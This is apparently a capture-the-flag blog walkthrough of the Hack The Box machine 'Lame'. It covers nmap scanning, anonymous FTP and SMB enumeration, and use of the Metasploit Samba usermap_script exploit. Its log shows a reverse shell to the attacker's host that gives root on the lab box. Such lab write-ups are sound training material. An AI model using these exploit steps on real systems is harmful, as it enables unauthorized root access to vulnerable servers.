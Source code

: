 ```yaml
---
layout: post
title:  "Lame"
date:   2020-02-15 20:45:57 +0000
categories: HTB-Walkthrough
---
```


![lame](/assets/img/lame.png)

Lets kick this off by using nmap to scan the target
`nmap -A 10.10.10.3 |tee -a lame.txt`
The `-A` flag sets the scan to agressive...not always the best choice, but I am in a bit of a mood!


```shell

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```


1st try anonymous ftp login and enum.

```shell

ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> cd ..

```

2nd try smbclient and port 445 enum.

```shell

root@kali:~/HTB/prep/lame# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME
```

We can see that the target is running Samba 3.0.20-Debian, maybe it has some known 
vulnerability we can find, but first lets take the hint and explore `tmp` 

```shell

root@kali:~/HTB/prep/lame# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov  6 11:38:07 2019
  ..                                 DR        0  Sun May 20 20:36:12 2012
  orbit-makis                        DR        0  Wed Nov  6 11:25:31 2019
  .ICE-unix                          DH        0  Wed Nov  6 10:47:27 2019
  .X11-unix                          DH        0  Wed Nov  6 10:47:51 2019
  gconfd-makis                       DR        0  Wed Nov  6 11:25:31 2019
  5141.jsvc_up                        R        0  Wed Nov  6 10:48:34 2019
  .X0-lock                           HR       11  Wed Nov  6 10:47:51 2019

		7282168 blocks of size 1024. 5678328 blocks available
smb: \> 

```
Nothing immediately helpful here...so lets check Searchsploit for possible known exploits.

Searchsploit reveals a metasploit exploit for Samba 3.x
Ok lets see how effective it is...

Start up msfconsole, then:

`use exploit/multi/samba/usermap_script`
use the command `show options` to see what info is required to make this work...
`set rhosts 10.10.10.3`
pull the trigger with `exploit` command...


```plaintext

msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP double handler on 10.10.14.31:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo gcMvWCjjW9n0VrCc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "gcMvWCjjW9n0VrCc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.31:4444 -> 10.10.10.3:54951) at 2020-01-21 11:42:12 -0500

id
uid=0(root) gid=0(root)
cd /home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
69xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxc5
cat /root/root.txt
92xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxdf

```

Oh, right....that was quick. I can see where the box gets its name from now;
Nobody in their right mind should still be running this Samba version!

A good easy box for beginners to get to have a go at the basic tools, and methodology.
Lets quickly move on to another box...



#######################

